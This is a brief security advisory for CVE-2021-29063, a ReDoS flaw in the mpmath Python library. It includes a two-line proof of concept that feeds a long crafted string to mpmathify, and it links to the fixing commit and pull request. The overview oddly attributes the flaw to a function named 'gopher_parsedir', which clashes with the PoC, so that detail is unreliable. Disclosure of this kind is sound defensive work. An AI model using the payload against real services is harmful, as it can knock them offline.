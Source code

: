 # CVE-2021-29063
## Package

mpmath

## Overview

mpmath is Python library for arbitrary-precision floating-point arithmetic. 

Regular Expression Denial of Service (ReDOS) in Mpmath v1.0.0.

Passing specific string to gopher_parsedir may result in long excesively long evaluation by the regex used inside the function.

## Proof of Concept

```python
from mpmath import mpmathify
mpmathify("(" + "1" * 5000 + "j!")
```

## GitHub Commit

 https://github.com/vks/mpmath/commit/c811b37c65a4372a7ce613111d2a508c204f9833
 
 
 ## GitHub PR
 https://github.com/fredrik-johansson/mpmath/pull/570

